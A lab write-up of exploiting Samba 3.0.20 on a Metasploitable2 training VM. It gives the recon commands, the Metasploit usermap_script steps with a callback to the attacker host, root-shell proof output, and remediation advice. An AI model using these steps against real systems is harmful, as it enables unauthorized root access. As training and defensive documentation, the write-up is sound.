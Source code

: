 # Metasploitable2 – Samba 3.0.20 (Port 445)

**Date:** 2025-09-05  
**Target:** 192.168.56.101  
**Attacker:** Kali Linux 2025.2 (192.168.56.102)  

---

## Recon

Nmap identified port 445 open running Samba 3.0.20:

```bash
nmap -sV -p 445 192.168.56.101 -oN nmap_samba_results.txt

Results showed:
- Service: netbios-ssn
- Version: Samba smbd 3.x (workgroup: WORKGROUP)
Additional enumeration with enum4linux confirmed available shares and user accounts:
enum4linux -a 192.168.56.101 | tee smb_enum_results.txt

Exploitation (Metasploit)
Using the usermap_script exploit in Metasploit:
msfconsole
use exploit/multi/samba/usermap_script
set RHOST 192.168.56.101
set LHOST 192.168.56.102
exploit

Proof of Compromise
Successful exploitation resulted in a root shell:
whoami
root

uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

id
uid=0(root) gid=0(root)

Artifacts
  - [Nmap results](./metasploitable2/nmap_samba_results.txt)
  - [SMB enumeration](./metasploitable2/smb_enum_results.txt)
  - Screenshot: ![Root shell Samba](./metasploitable2/images/proof.samba.png)

Remediation
Upgrade Samba: Patch to a supported version (≥ 3.5.x).
Restrict access: Limit SMB service exposure to trusted hosts only.
Use firewalls: Block port 445 from untrusted networks.
Harden configs: Disable anonymous logins and enforce strong authentication.
---


